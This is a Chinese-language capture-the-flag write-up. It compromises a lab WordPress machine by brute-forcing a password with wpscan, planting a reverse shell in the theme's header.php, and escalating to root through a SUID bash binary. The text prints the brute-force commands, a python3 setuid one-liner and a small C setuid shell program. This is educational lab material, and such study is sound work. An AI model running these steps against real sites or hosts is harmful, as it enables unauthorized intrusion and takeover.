## collect information

> scan ports

开放端口:22，80



> 80

wordpress的动态博客，感觉可以用[wpscan](https://wpscan.com/profile/)尝试自动遍历漏洞



## enter web dashboard

不着急用`wpscan`扫描，随意点击几个跳转链接，发现重定向的链接都带有主机名



因此我需要先在`/etc/hosts`中将IP地址和主机名绑定



若是想在Windows下改变，需要编辑这个文件：`C:\Windows\System32\drivers\etc\hosts`,编辑内容一致

此时我们访问博客就能正常跳转那些重定向链接

---

先使用wpscan扫描博客中所有可能的用户，发现只有一个yepian，我用到的命令如下：

```bash
wpscan --url http://badbox.dsz/ --api-token <api-token> -e u
```

猜测这里可能存在弱密码，wpscan也能借助字典实现这个爆破功能

```bash
wpscan --url http://badbox.dsz/ -U yepian -P /home/yolo/ctftools/wordlists/rockyou.txt --api-token <api-token>
```

爆破出来了，密码是11111111



通常来说，wp的后台管理面板路由是/wp-admin/，如果没有提前登录，也可访问该路由，系统会将用户的路由重定向到登录界面



解决这类wordpress后台拿shell的题目，在我看来最常用的是修改主题文件中的php代码，我提前看了下，这个博客主题是**二〇二五**

我在主题中找到一个相对简单点的php文件：header.php(功能复杂的php代码如果乱改，可能会让博客崩溃，有概率拿不到shell，就算拿到，崩溃的博客也极度影响后续的复现)



header.php的作用就是修改博客网站顶部的样式，看得出来，这份php代码没有调用任何php函数语句，我们直接将其覆盖为反弹shell的payload即可

我上网找了个反弹shell+稳固的php模板，仓库地址：https://github.com/Ethancck/phpshell/blob/master/reverp.php

已经弹出shell了



## get yepian shell

查看/etc/passwd，发现家目录下只有yepian一个用户，这个用户名和wp博客里的一致，怀疑存在密码喷洒，测试后失败

继续进行信息检索，在查找过程中，发现yepian目录下的user_flag权限为644，任何用户都能读

```text
flag{user-20d5d73042f640282afa479ef40e63a4}
```

## get root shell

翻了一些记录用户信息以及config的文件后，都没有办法提权到yepian上，索性直接提权root,查看所有suid权限文件

```bash
find / -perm -4000 -type f 2>/dev/null
```



两处自定义的bash文件，这里应该利用/var/tmp/bash进行提权，不能利用/tmp/bash提权的原因是/tmp路径有nosuid权限

在Linux中可以这样查看

```bash
$ mount | grep /tmp
tmpfs on /tmp type tmpfs (rw,nosuid,nodev,relatime,inode64)
```

由于nosuid权限存在，任何suid文件都无法在/tmp下发挥特权

至于第二个bash就不存在这样的问题，这里使用mount是查看不了/var/tmp/权限的，因为/var/tmp不是一个独立的挂载点，它仅仅是根文件系统下的一个普通目录，这个时候我们需要向上查看/var的特权种类



可以看得出来，/var并没有nosuid特权，那么`/var/tmp`自然不可能继承到，因此我才说`/var/tmp/bash`是一个可以利用的suid文件

这里还考察了点alpine的busybox降权机制，特别安利111写得这篇文章：[https://the0n3.top/posts/busybox138/](https://the0n3.top/posts/busybox138/)

只能说perfect

之前我解决这类问题的时候，借助的是python3，通过附加ruid=0，让`ruid==euid`，变成一个合法的root shell环境，在这种环境下，可以执行任意root命令

这是那次的payload:

```bash
/var/tmp/bash -p -c "python3 -c 'import os;os.setuid(0);os.execl(\"/bin/bash\",\"bash\",\"-p\")'"
```

但是在本题就无法复用了，因为没有python环境，可以参考[文章写得三个问题](https://the0n3.top/posts/busybox138/#0-3-%E4%B8%89%E4%B8%AA%E9%97%AE%E9%A2%98)的解决方案，找到一个合适的payload:静态编译二进制外部文件，该二进制文件可以自行设定`uid=0`,并调用sh

```c
#include <unistd.h>
int main() {
    setgid(0);
    setuid(0);
    execl("/bin/sh", "sh", NULL);
}
```

静态编译：`gcc --static -o exp exp.c`

运行：`/var/tmp/bash -p -c './exp'`



提权成功